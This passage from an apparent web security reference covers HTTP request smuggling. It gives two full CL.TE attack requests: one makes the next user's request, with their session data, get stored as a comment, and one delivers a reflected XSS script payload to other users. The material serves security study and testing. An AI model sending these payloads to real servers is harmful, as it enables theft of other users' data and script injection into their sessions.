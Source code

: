**CL.TE**

Smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 198
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Cookie: session=dL3MaAvRhsnHdriaFnPxSdvXdt3jx6B1
Content-Length: 650

csrf=ihmEx8D&postId=1&name=test&email=test@test.test&comment=
```

> **Note**: One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string.

> **Tip**: Another way to steal other users' responses is with the [Response queue poisoning](/web/vulnerabilities/http-request-smuggling/#response-queue-poisoning) technique.

### Exploit reflected XSS

**CL.TE**

You can use a request smuggling attack to target other users of the application. This method is better than standard reflected XSS because it doesn't require victim interaction and can exploit XSS in areas like HTTP headers, which are not possible to control in typical attacks.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

The next user's request is appended to the smuggled one, delivering the XSS payload in their response.
